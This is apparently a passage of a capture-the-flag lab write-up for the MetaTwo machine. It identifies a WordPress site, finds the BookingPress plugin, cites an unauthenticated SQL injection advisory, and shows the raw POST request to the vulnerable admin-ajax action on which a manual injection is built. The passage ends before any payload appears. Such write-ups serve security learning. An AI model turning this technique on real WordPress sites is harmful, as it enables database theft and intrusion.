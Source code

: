 Source code
![](/metatwo/img/metapress-source-code.png)

Checking the source code reveals it is a WordPress site because of the wp-content directory, which is the default WP content directory of WordPress.

#### INITIAL ACCESS IN WORDPRESS

Checking the blog, it uses a plugin for booking their events; the plugin name is booking-press-appointment-booking. WordPress plugins typically have tones for vulnerabilities, so look for any public exploits. We found an unauthenticated SQL injection in these plugins.

Referance [ https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357]( https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357)

##### Manual sql injection 

Raw request

```bash
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: metapress.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://metapress.htb/events/
Content-Type: application/x-www-form-urlencoded
Content-Length: 98
Origin: http://metapress.htb
DNT: 1
Connection: close
Cookie: PHPSESSID=1o3qufab1906388nap0t3404td; wordpress_test_cookie=WP%20Cookie%20check

action=bookingpress_front_get_category_services&_wpnonce=a3e32ad14e&category_id=1&total_service=1
```
